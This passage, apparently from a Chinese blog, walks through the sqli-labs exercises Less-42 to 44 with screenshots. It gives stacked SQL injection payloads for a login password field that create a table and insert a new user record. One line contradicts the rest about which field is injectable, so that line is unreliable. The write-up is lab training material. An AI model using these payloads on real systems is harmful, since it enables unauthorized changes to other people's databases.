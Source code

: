 <img src="https://i-blog.csdnimg.cn/blog_migrate/d89032da7fc446bb73c106c2b60cb4d1.png" alt="" style="max-height:552px; box-sizing:content-box;" />


成功登入

看看源代码



<img src="https://i-blog.csdnimg.cn/blog_migrate/a54dcefbee877ac1e83c8c37bc0e9706.png" alt="" style="max-height:107px; box-sizing:content-box;" />


同时发现了为什么无法在用户名处 进行注入



<img src="https://i-blog.csdnimg.cn/blog_migrate/256157e25562d8f48ff699def7f7e19d.png" alt="" style="max-height:124px; box-sizing:content-box;" />


这里就发现了

只有用户名处存在注入点

## Less-43

```vbnet
admin
 
1'
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/0cf6f9f61d8180d8201b1c6d7c58d9ce.png" alt="" style="max-height:164px; box-sizing:content-box;" />


发现还是在密码处

发现是1')闭合

```vbnet
1');create table hack like users;-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/6464b28a91b6c9072cdb74b4ab444d61.png" alt="" style="max-height:118px; box-sizing:content-box;" />


注入成功

## Less-44

没有报错信息

所以就是猜测

但是是和42一样的

```cobol
admin
a';insert into users(id,username,password) values ('44','less44','hello')#
```
